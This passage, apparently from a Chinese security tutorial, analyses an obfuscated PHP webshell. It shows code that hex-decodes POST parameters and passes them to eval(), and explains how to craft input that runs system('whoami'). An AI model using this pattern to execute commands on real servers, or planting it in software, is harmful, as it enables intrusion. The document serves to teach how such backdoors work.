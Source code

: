 传入了两个参数，参数名分别为 `num` 和 `Qxi*37yz`，这个函数的输出为 `$post1`，关键就在于以下这一行代码：

```php
foreach($_POST as $k => $v){
    $_POST[$k] = pack("H*",(substr($v,$num,-$num)));
}
```

然后我们根据上文提到的知识点 0.8、1.5 和 2.1 以及 2.4，可以了解到这一行代码的意思：

-   `substr()` 函数将传进去的 `Qxi*37yz` 参数字符串，删掉前 `num` 个字符和后 `num` 个字符（截取中间部分的内容）
-   `pack("H*",...)` 函数将处理后的 `Qxi*37yz` 参数字符串进行十六进制编码转换
-   `foreach()` 将原本的 `$_POST` 变量替换为经过十六进制编码转换后的字符串

注：这里可能有些绕，多上手尝试一下就明白了

接下来我们来看 `Xt()` 这个函数：

```php
function Xt(){
    return eval($this->encode());
}
```

它将 `encode()` 函数的执行结果带入到 `eval()` 高危函数当中，即：

```php
function Xt(){
    return eval($post1);  //encode() 函数的输出为$post1
}
```

那假设我们要执行 `whoami` 命令，那就要让 `$post1` 等于 `system('whoami');`，这没毛病吧？

所以结合来看，我们先要生成 16 进制的字符串：

![whoami 转十六进制.png](assets/1698896037-b1347ee821e8728377529197c7f2fbbe.png)
